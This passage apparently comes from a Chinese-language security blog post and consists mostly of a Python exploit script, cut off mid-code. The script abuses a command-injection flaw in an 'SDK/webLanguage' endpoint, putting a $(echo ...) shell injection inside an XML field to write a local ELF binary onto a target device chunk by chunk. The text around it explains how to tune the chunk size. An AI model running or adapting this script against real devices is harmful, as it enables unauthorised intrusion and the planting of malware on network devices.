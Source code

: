 ```
target = sys.argv[1]

testPayloadLength(target)

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EXAzGmF3b1xOWqS4KJjutrhOoCfjVpmTXEgmhDDOqxq6jMl5dCMl0NQ/640?wx_fmt=png&from=appmsg "")  
  
  
如果你自己修改了脚本，建议这个数字再小一点，减少 4 的整数倍，这里就以 180 为例，修改echo写入脚本  
```
import requests
import sys
import urllib.parse

def read_string(string, chunk_size=100):
    start = 0
    while start < len(string):
        end = start + chunk_size
        chunk = string[start:end]
        yield chunk
        start = end

# 构建请求头部
headers = {
    'User-Agent': 'python-requests/2.22.0',
    'Accept-Encoding': 'gzip, deflate',
    'Accept': '*/*',
    'Connection': 'close',
    'X-Requested-With': 'XMLHttpRequest',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'en-US,en;q=0.9,sv;q=0.8',
}

def sendPayload(target, poc_data):
    # 设置要发送的数据
    data = '<?xml version="1.0" encoding="UTF-8"?><language>$(echo -n -e "' + poc_data + '" >> webLib/payload.elf)</language>'
    url = urllib.parse.urljoin(target, 'SDK/webLanguage')

    # 发送请求
    response = requests.put(url, headers=headers, data=data)
    
    # 检查响应状态码等，确保请求成功
    if response.status_code == 500:
        return True
    return False

if len(sys.argv) < 3:
    print("Usage: python script.py <target_address> <file_path>")
    sys.exit(1)

target = sys.argv[1]
file_path = sys.argv[2]

with open(file_path, 'rb') as file:
    elf_data = file.read()

hex_string = ''.join(['\\x{:02x}'.format(byte) for byte in elf_data])

hex_string_len = len(hex_string)
print(hex_string_len)

# 动态设置 Host 字段
```